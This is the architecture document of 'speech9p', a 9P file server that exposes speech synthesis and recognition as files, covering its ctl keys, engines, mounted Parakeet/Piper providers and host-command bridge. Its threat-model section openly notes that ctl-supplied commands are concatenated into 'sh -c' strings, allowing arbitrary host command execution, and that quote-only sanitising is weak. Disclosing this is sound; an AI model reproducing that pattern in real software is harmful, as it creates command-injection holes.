# Speech Architecture

> **Scope.** Architecture of `speech9p`, the 9P file server that presents
> text-to-speech (TTS) and speech-to-text (STT) as files. Covers its three
> engine backends, the file/ctl protocol, the host-command bridge, and the
> three consumers in InferNode (the `say` and `hear` Veltro tools, the
> lucibridge auto-speak path, and direct shell use). Cross-host audio
> composition is in [SPEECH-REMOTE-AUDIO.md](SPEECH-REMOTE-AUDIO.md).

## 1. Components at a glance



| Component                       | Source                              | Role |
|---------------------------------|-------------------------------------|------|
| `speech9p`                      | `appl/veltro/speech9p.b`            | The 9P server. Routes ctl/say/hear/voices to engine backends. |
| `module/speech.m`               | `module/speech.m`                   | Abstract `TTSEngine`/`STTEngine` interface (currently descriptive — speech9p in-lines its three backends rather than loading separate engine modules). |
| `say` tool                      | `appl/veltro/tools/say.b`           | Veltro tool that opens `/n/speech/say` and writes text. |
| `hear` tool                     | `appl/veltro/tools/hear.b`          | Veltro tool that writes `start <ms>` to `/n/speech/hear` and reads the transcription back. |
| `lucibridge` auto-speak         | `appl/cmd/lucibridge.b:speaktext`   | GUI-side path: opens `/n/speech/say` itself when `/voice on` is active. Bypasses the agent tool. |
| `nsconstruct` / `tools9p` glue  | `appl/veltro/nsconstruct.b`, `tools9p.b:992` | Auto-grants `/n/speech` to agents that have `say` or `hear` registered. |

## 2. Filesystem



All four files live at the root of the synthetic 9P tree (no
sub-directories). Permissions:

| File     | Mode   | Read                                    | Write                                       |
|----------|--------|-----------------------------------------|---------------------------------------------|
| `ctl`    | rw     | dumps current config as `key value\n` lines | `key value` configures one setting; `Eperm` on unknown keys |
| `say`    | rw     | per-fid status of last write            | UTF-8 text → spawned TTS                     |
| `hear`   | rw     | **blocking** — triggers recording + STT  | `start [duration_ms]` resets and arms a recording |
| `voices` | r      | newline-separated voice list            | `Eperm`                                      |

### 2.1 ctl protocol

```
read /n/speech/ctl  →  engine cmd
                       voice samantha
                       lang en
                       rate 22050
                       chans 1
                       bits 16
                       cmdtts say
                       cmdstt whisper-cli
```

```
write /n/speech/ctl <- engine api
write /n/speech/ctl <- voice nova
write /n/speech/ctl <- apikey sk-...
write /n/speech/ctl <- pipermodel /opt/piper/models/en_US-lessac-medium.onnx
```

| Key            | Values                                          | Notes |
|----------------|-------------------------------------------------|-------|
| `engine`       | `cmd` · `api` · `local`                          | `cmd` is the default. `local` is **only** reachable via this verb or auto-detection (the CLI flag rejects it). |
| `voice`        | engine-specific                                  | API engine silently rewrites `""`, `default`, or `samantha` to `alloy`. |
| `lang`         | language code, e.g. `en`                         | Cosmetic for `cmd`; passed through to `api`. |
| `rate`         | 8000–48000                                       | Sample rate (Hz) for `/dev/audio` playback. |
| `chans`        | 1 or 2                                           |        |
| `bits`         | 8 or 16                                          |        |
| `cmdtts`       | shell command for TTS                            | `cmd` engine only. |
| `cmdstt`       | shell command for STT                            | `cmd` engine only. |
| `apiurl`       | base URL                                         | `api` engine. |
| `apikey`       | bearer token                                     | `api` engine. **Stored in process memory in clear.** |
| `piperbin` / `pipermodel`     | binary path / `.onnx` voice model | `local` engine. |
| `whisperbin` / `whispermodel` | binary path / `.bin` GGML model    | `local` engine. |
| `ttsengine` | `engine` or `piper` | Selects whether `/n/speech/say` uses the configured speech9p TTS engine or delegates to the mounted Piper TTS file. |
| `listenengine` | `whisper` or `parakeet` | Selects the Phase 1 provider behind `/n/speech/listen`. |
| `whisperstreambin` | command path / wrapper command | Current Whisper-compatible provider. `speech9p` runs this helper and expects newline-delimited `partial ...` / `final ...` records. |
| `parakeetmount` / `parakeetlisten` / `pipersay` | mounted provider root, STT stream file, and Piper TTS file | Current mounted provider. The provider is expected to be a separately mounted 9P service, typically exposing `/n/parakeet/listen` as a Parakeet continuous `partial ...` / `final ...` stream and `/n/parakeet/say` as Piper-backed TTS. |

`/n/speech/listen` is the stable Infernode-facing interface.  `listenengine`
selects how that file is backed:

| Provider | Current backing | Lifecycle |
|----------|-----------------|-----------|
| `whisper` | `whisperstreambin` command or wrapper | `speech9p` runs the helper for a listen read. This preserves the existing command-backed helper path and is suitable for simple wrappers. |
| `parakeet` | mounted file such as `/n/parakeet/listen` | The mounted provider owns the live microphone process. `speech9p` keeps the listen file open across reads so the stream remains continuous. |

Parakeet is not a separate speech architecture.  It is the first Phase 1
provider that needs the mounted-service shape because its useful mode is a
long-lived microphone stream, for example:

```
cd <parakeet-checkout>
<build-dir>/examples/cli/parakeet-cli transcribe \
    --model models/parakeet_realtime_eou_120m-v1-f16.gguf \
    --mic --stream --lines
```

The mounted service exports that process through a 9P namespace, normally:

| Path | Contract |
|------|----------|
| `/n/parakeet/listen` | continuous newline-delimited `partial ...`, `final ...`, status, and TTS records from the live microphone stream |
| `/n/parakeet/say` | write text to synthesize and play with Piper; read the last TTS status |
| `/n/parakeet/cancel` | optional write-only cancellation hook; `speech9p` writes `cancel` when `/n/speech/cancel` is written |

Infernode wiring is then only:

```
echo 'listenengine parakeet' > /n/speech/ctl
echo 'ttsengine piper' > /n/speech/ctl
echo 'parakeetmount /n/parakeet' > /n/speech/ctl
```

`speech9p` keeps `/n/parakeet/listen` open across reads so it consumes one
mounted stream rather than starting bounded transcription requests.  When
`ttsengine piper` is set, `/n/speech/say` delegates to the configured
`pipersay` file, normally `/n/parakeet/say`, so the voice-only path uses
Parakeet STT and Piper TTS from the same mounted process instead of relying on
platform TTS such as macOS `say`. `voicemode` submits only `final ...` records to Lucia; partial records
are available for debug or future live UI work but are not submitted as turns in
Phase 1.

A Whisper provider could be mounted behind the same stream-file contract later.
Phase 1 keeps the existing Whisper command path because it is already the
default helper mechanism and does not require the Parakeet-specific
`--mic --stream` process lifecycle.

## 3. The three engines



The split between "engine plays directly" (macOS `say`) and "engine returns
PCM that we play through `/dev/audio`" (everything else) is real and
deliberate — it means the macOS path doesn't need `/dev/audio` to work,
while the API and local paths require a working audio device.

| Engine | TTS path                                                | STT path                                       |
|--------|---------------------------------------------------------|------------------------------------------------|
| `cmd`  | `say`/`espeak-ng`/PowerShell via `#C`                    | `ffmpeg` (macOS) / `arecord` (Linux) → temp WAV → `whisper-cli` |
| `api`  | POST to `/audio/speech` → PCM → `playpcm`               | record via `recordaudio` → POST to `/audio/transcriptions` (multipart) |
| `local` | `piper --output-raw` (text on stdin) → PCM → `playpcm` | `ffmpeg`/`arecord` → temp WAV → `whisper-cli` |

### 3.1 Engine selection

```mermaid
flowchart TD
    start([speech9p starts]) --> arg{"-e flag?"}
    arg -- "-e cmd" --> cmd[engine = ENGINE_CMD]
    arg -- "-e api" --> api[engine = ENGINE_API]
    arg -- "-e local" --> bug["✗ rejected by usage()<br/>(known parser bug)"]
    arg -- absent --> cmd
    cmd --> initplat[initplatform]
    api --> initplat
    initplat --> plat{platform?}
    plat -- macOS --> mac[cmdtts=say<br/>cmdstt=whisper-cli<br/>voice=samantha]
    plat -- Linux --> linprobe{piper +<br/>whisper-cli<br/>on PATH?}
    linprobe -- yes --> promote[engine ← LOCAL<br/>(auto-promote)]
    linprobe -- no --> linfallback[cmdtts=espeak-ng<br/>cmdstt=&#40;empty&#41;]
    plat -- Windows --> win[PowerShell TTS<br/>no STT]

    runtime["runtime ctl write<br/>'engine local'"] -.-> promote

    classDef bug fill:#fecaca,stroke:#b91c1c
    classDef good fill:#dcfce7,stroke:#15803d
    class bug bug
    class promote,mac good
```

The CLI parser rejecting `-e local` (`speech9p.b:147–155`) is a clear bug —
`usage()`, `applyconfig`, and `readconfig` all know about the engine. Until
fixed, set `local` via `echo 'engine local' > /n/speech/ctl` after launch,
or rely on the Linux auto-promotion in `initplatform`.

## 4. Data flow

### 4.1 TTS — write to `/n/speech/say`



The `Rwrite` at step 3 is the design choice that keeps the serveloop
responsive while a 10-second `say` runs in the background. Callers who
need to know the TTS finished must read the same fid back; in practice
neither the agent tool nor lucibridge bothers — speech is fire-and-forget.

### 4.2 STT — read from `/n/speech/hear`



The blocking-read design (`speech9p.b:1549` calls `dohear()` directly inside
the `Read` handler) means **only one STT operation can be in flight per
speech9p instance**, and during that ~5–60 s window every other 9P
operation queues. This is acceptable for the current single-microphone
single-user model; if you ever needed concurrent STT you would need to
push `dohear()` into a spawned goroutine the same way `dosay` is.

### 4.3 Sync/async asymmetry summary



## 5. The host-command bridge (`#C` / devcmd)

speech9p does not have its own audio decoders or shell. Anything that
isn't a direct API call goes through the Inferno cmd device (`#C`,
documented as `cmd(3)`).



Two helpers wrap devcmd:

- **`runcmd(cmd)`** — fork/exec; read all of stdout into a Limbo string;
  return. Stdin is empty.
- **`runcmd_stdin(cmd, input)`** — same, plus pipes `input` to the child's
  stdin. This is what makes `saycmd_macos`, `saycmd_linux`, and `saylocal`
  safe against quoting issues for arbitrary text — the text never appears
  on the command line.

The `#C` device is bound *into* the speech9p namespace lazily by
`bindcmd()` (first call to `runcmd` triggers it). speech9p runs in the
*emu's* namespace, not a Veltro agent's restricted namespace, so it can
do this freely.

### 5.1 Quoting and injection



The mitigation that actually matters is *piping text via stdin*. The
`sanitize()` helper (replaces single quotes only) is a defence-in-depth
veneer; do not rely on it for untrusted input on the cmd line. Note also
that `cmdtts` and `cmdstt` from ctl are *concatenated into shell strings*
and passed to `sh -c`. An attacker who can write `/n/speech/ctl` can
execute arbitrary host commands. The threat model assumes ctl is only
writable by trusted local processes (see §8).

## 6. Audio I/O on `/dev/audio`

For the `api` engine and any `cmd`/`local` path that returns PCM (Linux
`espeak-ng`, `piper`), speech9p plays through Inferno's audio device. STT
recording goes the other way for the `api` engine.



Caveat (already noted in `man 4 speech` BUGS section): `/dev/audio` is
exclusive-use. While speech9p holds it for playback, no other Inferno
process can play. For STT under the cmd or local engines, the recording
binary opens the host's mic *directly* (`ffmpeg` via avfoundation,
`arecord` via ALSA) — `/dev/audio` is not used on those paths.

## 7. Veltro and lucibridge integration

Two unrelated paths feed `/n/speech/say`. They overlap deliberately —
either an agent's tool call or the GUI's auto-speak mode produces speech;
nothing arbitrates between them at the speech9p level.

